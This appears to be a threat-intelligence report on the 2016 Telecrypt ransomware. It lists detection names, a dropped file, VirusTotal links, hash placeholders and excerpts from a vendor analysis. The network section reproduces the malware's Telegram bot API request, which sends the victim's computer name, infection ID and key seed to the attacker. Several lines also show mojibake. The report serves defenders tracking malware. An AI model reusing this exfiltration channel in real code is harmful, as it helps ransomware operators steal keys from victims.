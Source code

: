 # Threat Report: 2016-11-11: OSINT - The first cryptor to exploit Telegram


## Key Intelligence
* Date: 2016-11-11
* Threat Level: 3 (Low)
* Tags: tlp:white, osint:source-type="blog-post", circl:incident-classification="malware", ecsirt:malicious-code="ransomware", malware_classification:malware-category="Ransomware", ms-caro-malware:malware-type="Ransom", enisa:nefarious-activity-abuse="ransomware"

---

## Indicators of Compromise (IOCs)
### Antivirus detection
* text: Trojan-Ransom.Win32.Telecrypt
* text: PDM:Trojan.Win32.Generic

### Artifacts dropped
* filename: %USERPROFILE%\Desktop\Ð‘Ð°Ð·Ð° Ð·Ð°ÑˆÐ¸Ñ„Ñ€ Ñ„Ð°Ð¹Ð»Ð¾Ð².txt — . The Trojanâ€™s sample that we analyzed does not change file extensions. A list of encrypted files is saved to the text file

### External analysis
* comment: Earlier this month, we discovered a piece of encryption malware targeting Russian users. One of its peculiarities was that it uses Telegram Messengerâ€™s communication protocol to send a decryption key to the threat actor. To our knowledge, this is the first cryptor to use the Telegram protocol in an encryption malware case.
What is a cryptor?

In general, cryptors can be classified into two groups: those which maintain offline encryption and those which donâ€™t.

There are several reasons why file encryption malware requires an Internet connection. For instance, the threat actors may send an encryption key to the cryptor and receive data from it which they can later use to decrypt the victimâ€™s encrypted files.

Obviously, a special service is required on the threat actorâ€™s side to receive data from the cryptor malware. That service must be protected from third-party researchers, and this creates extra software development costs.
* link: https://securelist.com/blog/research/76558/the-first-cryptor-to-exploit-telegram/
* link: https://www.virustotal.com/file/63fa775052a5c7258d44a00d9f2b4a9263f96fb7c61778cbb1ba9102fed2082f/analysis/1478849458/ — Trojan-Ransom.Win32.Telecrypt.a (the â€˜Informerâ€™ module). - Xchecked via VT: 14d4bc13a12f8243383756de92529d6d
* link: https://www.virustotal.com/file/3d7dd597a465d5275ef31d9e4f9dd80ed4de6139a1b3707cb3b0ffa068595567/analysis/1478857845/ — Trojan-Ransom.Win32.Telecrypt.a (the main module) - Xchecked via VT: 3e24d064025ec20d6a8e8bae1d19ecdb

### Network activity
* comment: https://api.telegram.org/bot<token>/sendmessage?chat_id=<chat>&text=<computer_name>_<infection_id>_<key_seed>

The Trojan sends the next request using the method â€˜sendMessageâ€™ which allows the bot to send messages to the chat thread of the specified number. The Trojan then uses the chat number hardwired into its body, and sends an â€œinfection successfulâ€ report to its creators:

https://api.telegram.org/bot<token>/sendmessage?chat_id=<chat>&text=<computer_name>_<infection_id>_<key_seed>

The Trojan sends the following parameters in the request:

<chat> â€“ number of the chat with the cybercriminal;

<computer_name> â€“ name of the infected computer;

<infection_id> â€“ infection ID;

<key_seed> â€“ number used as a basis to generate the file encryption key.

After sending the information, the Trojan searches the hard drives for files with specific extensions, and encrypts them bytewise, using the simple algorithm of adding each file byte to the key bytes.

### Payload delivery
* md5: <md5> — Trojan-Ransom.Win32.Telecrypt.a (the main module)
* md5: <md5> — Trojan-Ransom.Win32.Telecrypt.a (the â€˜Informerâ€™ module).
* sha256: <sha256> — Trojan-Ransom.Win32.Telecrypt.a (the â€˜Informerâ€™ module). - Xchecked via VT: 14d4bc13a12f8243383756de92529d6d
* sha1: <sha1> — Trojan-Ransom.Win32.Telecrypt.a (the â€˜Informerâ€™ module). - Xchecked via VT: 14d4bc13a12f8243383756de92529d6d
* sha256: <sha256> — Trojan-Ransom.Win32.Telecrypt.a (the main module) - Xchecked via VT: 3e24d064025ec20d6a8e8bae1d19ecdb
* sha1: <sha1> — Trojan-Ransom.Win32.Telecrypt.a (the main module) - Xchecked via VT: 3e24d064025ec20d6a8e8bae1d19ecdb
